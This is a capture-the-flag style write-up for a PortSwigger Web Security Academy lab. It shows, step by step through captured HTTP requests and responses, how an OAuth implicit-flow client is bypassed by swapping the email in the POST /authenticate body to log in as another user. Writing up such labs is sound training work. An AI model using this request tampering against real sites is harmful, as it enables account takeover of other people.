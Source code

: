 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/45027c47-f008-4629-b075-97a0c01591d6)

## Solution :

So as per the lab desc, we have these 2 information.

- Credentials to login as wiener - `wiener"peter`
- Email of carlos - `carlos@carlos-montoya.net`

### Step 1 - Authorization request.

When we click on My-Account to login, the client application sends a *GET* request to the oauth identity provider with the following parameters.

- client_id=`z9hkad7gvzblhg1afh0nx`
- redirect_uri=`https://0a6e009504bec1c680f81c6b00e80009.web-security-academy.net/oauth-callback`
- response_type=`token`
- nonce=`-1485464675`
- scope=`openid profile email`

```http
GET /auth?client_id=z9hkad7gvzblhg1afh0nx&redirect_uri=https://0a6e009504bec1c680f81c6b00e80009.web-security-academy.net/oauth-callback&response_type=token&nonce=-1485464675&scope=openid%20profile%20email HTTP/1.1
Host: oauth-0a2800000484c182806f1a1a021300a0.oauth-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
```

### Step 2 - User login & consent

Once the oauth identity provider receives the request, it redirects the user to a login page for consent.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/7fed1d40-6b9a-4022-8bcd-eeb25e3ecf6f)

On entering the username password, it then asks for permission to access the data.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cff5143b-4091-44df-8f7b-7b09ee00a948)


### Step 3 - Access token Grant 

The following is the response for the *GET* request to `/auth/nBVHI4q169w7kJlZOkNsp` endpoint. It contains the **Access-token**.

```http
HTTP/2 302 Found
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
Set-Cookie: _interaction_resume=; path=/auth/nBVHI4q169w7kJlZOkNsp; expires=Thu, 01 Jan 1970 00:00:00 GMT; samesite=lax; secure; httponly
Set-Cookie: _session=mt14soA0oxV0nUPeRZTW7; path=/; expires=Fri, 06 Oct 2023 07:02:08 GMT; samesite=none; secure; httponly
Set-Cookie: _session.legacy=mt14soA0oxV0nUPeRZTW7; path=/; expires=Fri, 06 Oct 2023 07:02:08 GMT; secure; httponly
Location: https://0a6e009504bec1c680f81c6b00e80009.web-security-academy.net/oauth-callback#access_token=mY2Fc2CpZDcIf9NSIrogoJ6kQVVDnGQ7tOgDyi0wCnX&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email
Content-Type: text/html; charset=utf-8
Date: Fri, 22 Sep 2023 07:02:08 GMT
Keep-Alive: timeout=5
Content-Length: 459

Redirecting to <a href="https://0a6e009504bec1c680f81c6b00e80009.web-security-academy.net/oauth-callback#access_token=mY2Fc2CpZDcIf9NSIrogoJ6kQVVDnGQ7tOgDyi0wCnX&amp;expires_in=3600&amp;token_type=Bearer&amp;scope=openid%20profile%20email">https://0a6e009504bec1c680f81c6b00e80009.web-security-academy.net/oauth-callback#access_token=mY2Fc2CpZDcIf9NSIrogoJ6kQVVDnGQ7tOgDyi0wCnX&amp;expires_in=3600&amp;token_type=Bearer&amp;scope=openid%20profile%20email</a>.
```
Note that it is redirecting to `https://0a6e009504bec1c680f81c6b00e80009.web-security-academy.net/oauth-callback` which means the oauth identity provider is sending the access token to the service provider/client application.

### Step 4 - API call

Once the access-token is received by the client application, it (client application) sends a *GET* request to **/me** endpoint along with the **access-token in the `Authorization:Bearer` header** to grab the information mentioned in the scope.

```http
GET /me HTTP/2
Host: oauth-0aa300f80379b8a4809d9c3102b400e2.oauth-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1b007f03f8b82d806a9e160053000d.web-security-academy.net/
Authorization: Bearer p31vSZlwVkOKoqfOjEocLNYQx0ZZ0hxmefKzqG1AE3v
Content-Type: application/json
Origin: https://0a1b007f03f8b82d806a9e160053000d.web-security-academy.net
Connection: keep-alive
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
```
### Step 5 - Resource grant 

Now the oauth provider sends back the infomation mentioned in *scope* ie **email** along with the **access-token** to the client application.

```http
POST /authenticate HTTP/2
Host: 0a6e009504bec1c680f81c6b00e80009.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6e009504bec1c680f81c6b00e80009.web-security-academy.net/oauth-callback
Content-Type: application/json
Content-Length: 103
Origin: https://0a6e009504bec1c680f81c6b00e80009.web-security-academy.net
Connection: keep-alive
Cookie: session=N5Bwt00wDM1Nxk0ZMoZpwSclvy4gm8Bj
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{
"email":"wiener@hotdog.com",
"username":"wiener",
"token":"mY2Fc2CpZDcIf9NSIrogoJ6kQVVDnGQ7tOgDyi0wCnX"
}
```

### Flawed validation by client application 

Logout & Repeat the same oauth login process modify the following *POST* request.

```http
POST /authenticate HTTP/2
Host: 0a6e009504bec1c680f81c6b00e80009.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6e009504bec1c680f81c6b00e80009.web-security-academy.net/oauth-callback
Content-Type: application/json
Content-Length: 103
Origin: https://0a6e009504bec1c680f81c6b00e80009.web-security-academy.net
Connection: keep-alive
Cookie: session=N5Bwt00wDM1Nxk0ZMoZpwSclvy4gm8Bj
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{
"email":"carlos@carlos-montoya.net",
"username":"wiener",
"token":"mY2Fc2CpZDcIf9NSIrogoJ6kQVVDnGQ7tOgDyi0wCnX"
}
```

Change the *email* parameter to `carlos@carlos-montoya.net` & forward the request. Once the flow is completed,we don't see any error which means the server is not validating the request correctly. Now we are logged in as carlos & thus we've solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/ed6d6319-de02-474f-93d0-a92fd7b5ab54)
